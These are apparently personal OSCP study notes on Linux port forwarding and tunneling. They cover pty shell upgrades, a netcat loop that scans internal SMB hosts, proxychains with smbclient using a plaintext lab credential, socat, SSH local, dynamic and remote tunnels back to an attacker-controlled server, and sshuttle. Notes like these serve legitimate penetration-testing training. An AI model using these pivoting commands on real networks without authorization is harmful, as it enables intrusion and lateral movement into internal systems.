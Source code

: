 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/1-linux-port-forwarding/","updated":"2024-01-05T11:36:20.380+01:00"}
---
```


------
## Tunneling Theory + SOCKS:

Port forwarding may need tty capabilities on target machine, so import with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate hosts to tunnel to without nmap:
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

Confirm the tunnel is working from another shell by listing listening ports:
```
ss -ntplu
```

Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- -q silences any proxychains output
- Might use socks4 depending on versioning
- Won't work on statically-linked binaries
- Edit **tcp_read_time_out** and **tcp_connect_time_out** values in the conf-file for faster connections.
--------
## Socat port forwarding:
```
socat -ddd TCP-LISTEN:<listeningport>,fork TCP:<forkip>:<forkport>
```

------------
## SSH Local Port Forwarding:
```
ssh -v -N -L 0.0.0.0:2345:<forkip>:<forkport> <sshuser>@<passthroughip>
```

--------
## SSH Dynamic Port Forwarding:
- Allows for multiple end-sockets at wherever packets can be received
- Uses SOCKS as proxying protocol
- Only limit is that packets have to be properly formatted by SOCK-compatible client software
```
ssh -N -D 0.0.0.0:2345 <sshuser>@<passthroughip>
```

-------
## SSH Remote Port Forwarding
- Outgoing connections are often much less filtered
- If we can't control and bind to any ports on the target machine, instead we can SSH out and bind to a attacker SSH server
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Check server is listening:
```
sudo ss -ntplu
```
3. Set up SSH tunnel back to server on target:
```
ssh -N -R 127.0.0.1:2345:10.4.203.215:5432 crabfeather@192.168.45.180
```
4. Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
5. Win!

---------
## SSH Remote Dynamic Port Forwarding:
- Working as Remote PF with functionality of dynamic tunneling
- Available since OpenSSH 7.6 in Oct 2017 -- required client's version
- Works with -R flag but with only one socket, and only needing port which defaults to loopback address
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Set up SSH tunnel back to server on target:
```
ssh -N -R 2345 crabfeather@192.168.45.180
```
3. Win!

------
## SSHuttle:
- Turns a SSH connection into something similar to a VPN
- Requires root privs on SSH client and Python3 on SSH server
- Routes all types of traffic, including UDP and ICMP using iptables
- Also less packet loss (apparently)
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
